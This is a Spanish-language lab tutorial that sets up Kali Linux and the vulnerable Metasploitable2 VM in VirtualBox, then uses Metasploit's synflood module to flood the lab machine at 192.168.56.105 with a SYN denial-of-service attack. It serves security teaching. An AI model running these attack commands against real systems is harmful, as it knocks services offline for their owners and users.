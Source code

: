 # Metasploiable2
# Preparación del entorno
## Preparar Kali Linux y Metasploitable2
##### Preparando Kali Linux

El virtualizador que usaremos es VirtualBox. Lo primero que haremos será irnos a la página de Kali Linux y descargar el archivo OVA:

https://kali.download/virtual-images/kali-2021.4/kali-linux-2021.4-virtualbox-amd64.7z

![imagen](https://user-images.githubusercontent.com/80277545/146815893-0627a255-e3ed-46dd-94da-05bb3cbbc0b9.png)

Una vez descargado, debemos descromprimirlo y obtener el archivo .OVA:

![imagen](https://user-images.githubusercontent.com/80277545/146817611-3e4ed7ef-879d-4d8a-90b9-f7094e341e17.png)

Ahora abrimos VirtualBox y importamos el archivo .OVA:

![imagen](https://user-images.githubusercontent.com/80277545/146817830-dc69f517-8c4a-42bb-a169-c9d594e9fcab.png)

Una vez instalado tendremos que añadirle otra tarjeta de red, esto lo haremos yendo a la configuración de la maquina > Red > Adaptador2. Lo habilitaremos y añadiremos el "Adaptador sólo-anfritión": 

![imagen](https://user-images.githubusercontent.com/80277545/146818821-d302eb96-32f3-4bef-bd4b-d3835508bbb4.png)

( En caso de no tener el "Adaptador sólo-anfritión", podemos añadirlo desde "archivo" > "Administrador de red anfritión" > Crear ) 
![imagen](https://user-images.githubusercontent.com/80277545/146823922-7d4c0b59-c2fa-495a-b5b4-ab6d452c7bec.png)


La ventaja de hacerlo con este metodo es que no tenemos que "instalar" desde cero Kali Linux. Una vez finalizado, al iniciar el sistema directamente nos pedirá un usuario y una contraseña.

        usuario : kali
        contraseña : kali

##### Preparando Metasploitable2

Ahora descargaremos Metasploitable2 desde el siguiente enlace, para esto tendremos que rellenar este formulario (pueden ser datos falsos) y descargar el archivo comprimido: 

https://information.rapid7.com/download-metasploitable-2017.html

![imagen](https://user-images.githubusercontent.com/80277545/146821125-89d27534-9f43-406a-8b3a-314ef2dc1369.png)

Una vez descargado y descomprimido nos quedarán los siguientes archivos: 

![imagen](https://user-images.githubusercontent.com/80277545/146821415-49dc4747-6175-4f95-94b8-71931b535dda.png)


Ahora crearemos una nueva maquina virtual con las siguientes caracteristicas:

![imagen](https://user-images.githubusercontent.com/80277545/146820065-5e61817b-266c-44bc-ac2e-54463689d62b.png)

Daremos en "Next" y dejaremos la memoria ram asignada en "1024".

Posteriormente crearemos un "Disco duro virtual" :

![imagen](https://user-images.githubusercontent.com/80277545/146820292-ee85fe7f-1d16-438a-b7fe-257227093c3a.png)

De tipo "VDI" y "Reservado dinámicamente" de "10GB".

Una vez creada, nos vamos a "Configuración", "Almacenamiento" y eliminaremos "Metasploitable 2.vdi":

![imagen](https://user-images.githubusercontent.com/80277545/146822046-6d53e649-0459-4f13-8050-5ac2e6a94bbe.png)

Ahora añadiremos el nuevo disco que está dentro de los archivos que descargamos de Metasploitable2:

![imagen](https://user-images.githubusercontent.com/80277545/146822386-a1066bf4-722c-4c69-bc52-99acf64e9629.png)

A esta maquina también le cambiaremos el adaptador red "NAT" a "Adaptador sólo-anfritión":

![imagen](https://user-images.githubusercontent.com/80277545/146823149-188a2bb7-94d2-4540-987f-c3e012b0bd9c.png)


Ahora iniciamos la maquina y nos tendría que salir la siguiente interfaz: 

![imagen](https://user-images.githubusercontent.com/80277545/146822770-0af677c1-8d1f-4c32-bf87-cebd1f3caf5b.png)

El usuario y contraseña es: 

                Usuario : msfadmin
                Contraseña : msfadmin

Una vez dentro ejectuaremos "ifconfig" para saber la IP del eth1:

![imagen](https://user-images.githubusercontent.com/80277545/146823247-d17b9f87-11bf-4d0e-858f-0ba882793b00.png)


## Comprobando conectividad

Una vez estamos dentro de las dos maquinas, desde la de Kali vamos a realizar un ping para comprobar que tiene conectividad. En mi caso, la IP de Metasploitable2 es la 192.168.56.105:

           ping 192.168.56.105

![imagen](https://user-images.githubusercontent.com/80277545/146823628-db34255d-90fd-4beb-a9b3-e0b035b85b73.png)

Si resuelve igual que en la imagen anterior, significa que todo está instalado correctamente. 

Podemos ingresar a la pagina del servidor si desde nuestro Kali Linux introducimos la IP del mismo:

![imagen](https://user-images.githubusercontent.com/80277545/146824329-c54b8f79-1911-4c92-9383-7ea58c62a5ee.png)

# PRACTICA: Realizando un ataque DDoS 

( El fin de esta practica es educativo )

Desde nuestro Kali, vamos a usar un exploit de Metasploit (recordemos que Metasploit simplemente es como una libreria de exploits, una libreria de herramientas). 

Abriremos una terminal y ejecutaremos:

        sudo -i 
        

Iniciaremos Metasploit en modo superusuario: 

        sudo msfdb init && msfconsole
        
![imagen](https://user-images.githubusercontent.com/80277545/146827302-48d76b0a-6696-4606-b135-684022cd46e2.png)


Una vez dentro de Metasploit buscaremos la herramienta/exploit synflood , esto lo haremos con el parametro "search"

        search dos synflood
        
![imagen](https://user-images.githubusercontent.com/80277545/146827368-3bce3c42-0b3b-46d1-893d-85a5c8f08aaf.png)


Seleccionaremos la opción "/auxiliary/dos/tcp/synflood" , esto lo haremos con: 

         use 0 

Una vez seleccionado, miraremos los paramtros de la herramienta con "info":

        info
        
![imagen](https://user-images.githubusercontent.com/80277545/146827466-4088f6be-5251-4c56-9531-42ceb6b87c1c.png)

A continuación pondremos la IP de la maquina a atacar, en este caso será la 192.168.56.105 y ejecutaremos un run:

        set rhosts 192.168.56.105
        run

Al instante se inciará el ataque DDoS:

        ![imagen](https://user-images.githubusercontent.com/80277545/146827705-d3f29f69-e187-49bb-b7ad-99b459d4e98d.png)


Cuando se esté realizando el ataque, al recargar la pagina en el navegador, no nos resolverá la petición y se quedará cargando. Esto significará que el servidor está siendo atacado y no puede responder las solicitudes. 







